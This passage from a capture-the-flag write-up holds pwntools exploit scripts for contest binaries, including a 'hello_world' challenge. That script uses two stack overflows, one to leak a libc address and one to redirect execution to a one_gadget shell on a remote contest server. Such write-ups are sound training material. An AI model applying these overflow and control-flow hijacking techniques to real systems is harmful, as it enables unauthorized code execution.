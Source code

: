 ```python
ru(b"index\n")
sl(b"-1")
ru(b"Have a good time!\n")
time.sleep(2)
sd(b"ls")
# print(rl())
ia()
```

## hello_world

> 两次栈溢出 第一次泄露libc 第二次直接劫持程序流程one_gadget

```python
from pwn import *

context(os='linux', arch='amd64', log_level='debug')
# context(os='linux', arch='amd64')
context.terminal = ['byobu', 'sp', '-h']


file_name = "./vuln"
url = "xyctf.top"
port = 35494

elf = ELF(file_name)
# p= process(file_name)
# p = gdb.debug(file_name,"b main")
p = remote(url,port)

sd = lambda s : p.send(s)
sl = lambda s : p.sendline(s)
sa = lambda n,s : p.sendafter(n,s)
sla = lambda n,s : p.sendlineafter(n,s)
rc = lambda n : p.recv(n)
rl = lambda  : p.recvline()
ru = lambda s : p.recvuntil(s)
ra = lambda : p.recvall()
ia = lambda : p.interactive()
uu32 = lambda data : u32(data.ljust(4, b'\x00'))
uu64 = lambda data : u64(data.ljust(8, b'\x00'))

ru(b"please input your name: ")
sd(b"a"*0x28+b"\x91")
result = rl()[-7:-1]
baselibc = u64(result.ljust(8,b"\x00")) +47 -0x29DC0
print(result)
print(hex(baselibc))
ru(b"please input your name: ")
rb= p64(0x2072+0x78+baselibc)
sd(b"a"*0x20+p64(0)+p64(0x50a47+baselibc))
ia()

```
